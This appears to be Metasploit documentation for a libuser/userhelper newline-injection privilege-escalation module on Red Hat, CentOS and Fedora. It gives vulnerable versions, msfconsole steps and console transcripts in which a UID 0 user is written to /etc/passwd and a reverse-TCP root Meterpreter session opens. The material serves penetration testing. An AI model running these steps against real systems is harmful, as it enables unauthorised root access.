 ## Description

  This module attempts to gain root privileges on Red Hat based Linux
  systems, including RHEL, Fedora and CentOS, by exploiting a newline
  injection vulnerability in `libuser` and `userhelper` versions prior
  to `0.56.13-8` and version `0.60` before `0.60-7`.

  This module makes use of the `roothelper.c` exploit from Qualys to
  insert a new user with `UID=0` in `/etc/passwd`.

  Note, the password for the current user is required by `userhelper`.

  Note, on some systems, such as Fedora 11, the user entry for the
  current user in `/etc/passwd` will become corrupted and exploitation
  will fail.


## Vulnerable Application

  This module has been tested successfully on libuser packaged versions:

  * `0.56.13-4.el6` on CentOS 6.0 (x86_64)
  * `0.56.13-5.el6` on CentOS 6.5 (x86_64)
  * `0.60-5.el7` on CentOS 7.1-1503 (x86_64)
  * `0.56.16-1.fc13` on Fedora 13 (i686)
  * `0.59-1.fc19` on Fedora Desktop 19 (x86_64)
  * `0.60-3.fc20` on Fedora Desktop 20 (x86_64)
  * `0.60-6.fc21` on Fedora Desktop 21 (x86_64)
  * `0.60-6.fc22` on Fedora Desktop 22 (x86_64)
  * `0.56.13-5.el6` on Red Hat 6.6 (x86_64)
  * `0.60-5.el7` on Red Hat 7.0 (x86_64)

  RHEL 5 is vulnerable, however the installed version of `glibc` (`2.5`)
  is missing various functions required by `roothelper.c`.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/libuser_roothelper_priv_esc`
  4. `set SESSION [SESSION]`
  5. `set PASSWORD [PASSWORD]`
  6. `check`
  7. `run`
  8. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **PASSWORD**

  Password for the current user. (default: blank)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether `roothelper.c` should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ### libuser 0.56.13-5.el6 on Red Hat 6.6 (x86_64)

  ```
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.QQ4pE9nj.c' (29342 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.SJAEHS' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.245
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.245:46065) at 2018-04-23 13:08:51 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 6 (Linux 2.6.32-504.el6.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  ### libuser 0.60-5.el7 on CentOS 7.1-1503 (x86_64)

  ```
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.Ake5GA' (103396 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.vbahMY' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.242:48332) at 2018-04-23 13:13:22 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat 7.1 (Linux 3.10.0-229.el7.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  ### libuser 0.60-6.fc21 on Fedora Desktop 21 (x86_64)

  ```
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.ByQC9FHS.c' (29342 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.WnBXJkWDa' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.240
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.240:53201) at 2018-04-23 13:16:32 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 21 (Linux 3.17.4-301.fc21.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

